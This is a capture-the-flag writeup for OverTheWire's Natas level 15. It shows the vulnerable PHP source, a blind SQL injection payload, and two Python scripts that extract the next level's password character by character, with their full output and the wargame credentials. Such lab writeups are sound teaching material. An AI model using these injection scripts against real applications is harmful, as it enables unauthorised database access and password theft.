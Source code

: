 +++
author = "Alex Domnit"
title = 'Natas-Level 15'
date = 2024-08-23T15:10:52+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas15*\
*Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx*\
*URL:      http://natas15.natas.labs.overthewire.org*

### Doc
[What is SQL?](https://en.wikipedia.org/wiki/SQL)\
Structured Query Language is a domain-specific language used to manage data, especially in a relational database management system. It is particularly useful in handling structured data, i.e., data incorporating relations among entities and variables. 
[What is SQL injection?](https://en.wikipedia.org/wiki/SQL_injection)\
In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.\
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.

### Solution
Let`s log into natas15. Now the only present field is one entitled **username** and a **check existance** send button.

<img src="/img/natas/natas15-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<strong>Source code:</strong>

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
```
This code snippet submits the sent data from the <strong>natas15 index page</strong> and parses it into a SQL query that boils down to:
```
Select * FROM users WHERE username="sentData"
```
Easy, basic <strong>SQL injection</strong> just like the last time right? Welp, not so soon since this time, there is no output except for an existance confirmation, a "does not exist return" and a sql querry error statement. So now that we know that we can`t output anything, what are we supposed to do?\
The 3 type of returns are actually very usefull since you can send data packets and get confirmation about the packets. The approach idea is to try every possible combination tailored with what we know that the output should be and how it should look and watch out for validation.
#### In practice, how can it be done?
The SQL injection statement will look like this:
```
natas16" AND password LIKE BINARY "%letter%" "
```
This will produce a positive output when the password associated with <strong>natas16</strong> contains a letter given by us (or in this case also an uppercase letter and numbers) and we will produce a string composed of all the letters present in the actual password. We should write a script in order to achieve this since doing that by hand is not possible.\
<strong>Python script template:</strong>
```
import requests

target = 'http://natas15.natas.labs.overthewire.org'
possibleCharacterList = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
foundCharacterList = ''

for character in possibleCharacterList:
	username = ('natas16" AND password LIKE BINARY "%' + character +'%" "') #BINARY is used to make the search case sensitive
	req = requests.get(target,
		auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
		params={"username": username}
	)
	if "This user exists" in req.text:
		foundCharacterList += character
		print ('Possible so far: ' + foundCharacterList)
print("----"+"end of search"+"----")
```
We use the <strong>request</strong> library in order to make requests and get responses from the service then define our SQL query, define our auth parameters (<strong>the login data you have for natas15</strong>) and if the response to our insert with a certain character is possitive, append it to the empty list.\
<strong>Script execution:</strong>
```
03:13:59 archie@Archie pyscript → python3 getpasswordletters.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
```
As you can see, we confirmed that the password is composed out of these characters : <strong>346cefhijkmostuvDEGKLMPQVWXY</strong>
#### What`s next?
Okay, so we have our string of present characters in the password but that is not the passkey for the next level. The approach will now be, for character in string, if password is like characterinstring% append to characterinstring and continue until the password reaches the length of 32 (<strong>all the password\`s lenghts so far</strong>) and then break.\
For that I will make a function that takes the output of the last script and does what I\`ve described ealier for each letter in the input.\
<strong>Function:</strong>
```
def get_password(foundCharacterList):
    password = ''
    while len(password)!=32:
        for character in foundCharacterList:
            username = ('natas16" AND password LIKE BINARY "' + password + character + '%" "')
            req = requests.get(target,
                auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
                params={"username": username}
            )
            if "This user exists" in req.text:
                password += character
                print ('Password so far: ' + password)
                break
    print("Final password: " + password)
```
<strong>Now let`s run this:</strong>
```
03:32:35 archie@Archie pyscript → python3 finalscript.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
Password so far: h
Password so far: hP
Password so far: hPk
Password so far: hPkj
Password so far: hPkjK
Password so far: hPkjKY
Password so far: hPkjKYv
Password so far: hPkjKYvi
Password so far: hPkjKYviL
Password so far: hPkjKYviLQ
Password so far: hPkjKYviLQc
Password so far: hPkjKYviLQct
Password so far: hPkjKYviLQctE
Password so far: hPkjKYviLQctEW
Password so far: hPkjKYviLQctEW3
Password so far: hPkjKYviLQctEW33
Password so far: hPkjKYviLQctEW33Q
Password so far: hPkjKYviLQctEW33Qm
Password so far: hPkjKYviLQctEW33Qmu
Password so far: hPkjKYviLQctEW33QmuX
Password so far: hPkjKYviLQctEW33QmuXL
Password so far: hPkjKYviLQctEW33QmuXL6
Password so far: hPkjKYviLQctEW33QmuXL6e
Password so far: hPkjKYviLQctEW33QmuXL6eD
Password so far: hPkjKYviLQctEW33QmuXL6eDV
Password so far: hPkjKYviLQctEW33QmuXL6eDVf
Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
Final password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
As you can see, we`ve got the password for the next level : <strong>hPkjKYviLQctEW33QmuXL6eDVfMW4sGo</strong>